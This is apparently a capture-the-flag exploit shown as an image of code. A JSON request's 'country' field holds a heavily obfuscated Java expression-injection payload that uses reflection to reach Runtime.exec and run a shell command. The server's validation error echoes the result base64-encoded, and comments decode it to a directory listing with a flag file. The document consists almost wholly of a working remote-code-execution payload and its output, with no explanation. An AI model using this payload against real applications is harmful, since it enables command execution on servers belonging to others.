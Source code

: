 ```json
{"firstName":"Test","lastName":"Test","description":"Test","country":"${[].getClass().getClass().getMethods()[[[],[]].size()].invoke(null,[].getClass().getMethods()[[[]].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size()).concat([].getClass().getMethods()[[].size()].toString().substring([[],[]].size(),[[],[],[]].size()).toUpperCase()).concat([].getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[]].size(),[[],[],[],[],[]].size())).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[]].size())).concat([[],[],[],[],[],[]].size()).concat([[],[],[],[]].size())).getMethods()[[[],[],[],[],[],[]].size()].invoke(null).getClass().getMethods()[[[],[],[],[]].size()].invoke([].getClass().getClass().getMethods()[[[],[]].size()].invoke(null,[].getClass().getMethods()[[[]].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size()).concat([].getClass().getMethods()[[].size()].toString().substring([[],[]].size(),[[],[],[]].size()).toUpperCase()).concat([].getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[]].size(),[[],[],[],[],[]].size())).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[]].size())).concat([[],[],[],[],[],[]].size()).concat([[],[],[],[]].size())).getMethods()[[[],[],[],[],[],[]].size()].invoke(null),[].getClass().getClass()[[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())]([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size()).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[]].size(),[[],[]].size()).toUpperCase()).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[]].size(),[[],[]].size())).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[]].size(),[[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[]].size(),[[],[],[]].size())).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[]].size()))).getMethods()[[[],[],[],[],[],[]].size()].invoke(null).exec([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[]].size(),[[],[],[],[]].size()).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[]].size()))).getInputStream().readAllBytes())}"}
```

```json
{"violations":[{"fieldName":"country","message":"YmluCmJvb3QKZGV2CmV0YwpmbGFnLTkyNzFlMDAzZjk4MGEwMWVkNmIzOWYyODQ0YmQ0NGYxLnR4dApob21lCmxpYgpsaWI2NAptZWRpYQptbnQKb3B0CnByb2MKcm9vdApydW4Kc2JpbgpzcnYKc3lzCnRtcAp1c3IKdmFyCg== is not a valid country"}]}
// -> 
// bin
// boot
// dev
// etc
// flag-9271e003f980a01ed6b39f2844bd44f1.txt
// home
// lib
// lib64
// media
// mnt
// opt
// proc
// root
// run
// sbin
```